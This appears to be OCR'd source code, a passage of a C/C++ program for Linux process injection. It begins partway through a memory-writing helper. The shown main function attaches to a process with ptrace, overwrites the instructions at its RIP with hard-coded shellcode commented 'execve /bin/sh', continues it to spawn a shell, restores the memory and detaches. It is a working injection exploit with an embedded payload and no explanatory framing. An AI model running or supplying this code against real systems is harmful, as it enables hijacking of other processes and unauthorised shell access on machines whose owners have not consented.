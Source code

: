 ```cpp
    memcpy(chunk.bytes, buffer + i * sizeof(long), sizeof(long));
    ptrace(PTRACE_POKEDATA, target_pid, addr + i * sizeof(long), chunk.val);
    i++;
  }
  int remaining = len % sizeof(long);
  if (remaining) {
    memcpy(chunk.bytes, buffer + i * sizeof(long), remaining);
    ptrace(PTRACE_POKEDATA, target_pid, addr + i * sizeof(long), chunk.val);
  }
}

int main(int argc, char *argv[]) {
  if (argc != 2) {
    printf("usage: %s <target_pid>\n", argv[0]);
    return 1;
  }

  pid_t target_pid = atoi(argv[1]);
  char payload[] = "\x48\x31\xf6\x56\x48\xbf\x2f\x62"
  "\x69\x6e\x2f\x2f\x73\x68\x57\x54"
  "\x5f\x6a\x3b\x58\x99\x0f\x05"; // execve /bin/sh
  int payload_len = sizeof(payload) - 1;
  char original_code[payload_len];

  struct user_regs_struct target_regs;

  // attach to the target process
  printf("attaching to process %d\n", target_pid);
  if (ptrace(PTRACE_ATTACH, target_pid, NULL, NULL) == -1) {
    perror("failed to attach :(");
    return 1;
  }
  waitpid(target_pid, NULL, 0);

  // get the current registers
  printf("reading process registers\n");
  ptrace(PTRACE_GETREGS, target_pid, NULL, &target_regs);

  // backup the memory at RIP
  printf("backing up target memory\n");
  read_mem(target_pid, target_regs.rip, original_code, payload_len);

  // inject the payload
  printf("injecting payload\n");
  write_mem(target_pid, target_regs.rip, payload, payload_len);

  // hijack execution
  printf("hijacking process execution\n");
  ptrace(PTRACE_CONT, target_pid, NULL, NULL);

  // wait for the payload to execute
  wait(NULL);

  // restore the original code
  printf("restoring original process memory\n");
  write_mem(target_pid, target_regs.rip, original_code, payload_len);

  // detach from the process
  printf("detaching from process\n");
  ptrace(PTRACE_DETACH, target_pid, NULL, NULL);

  printf("injection complete\n");
  return 0;
```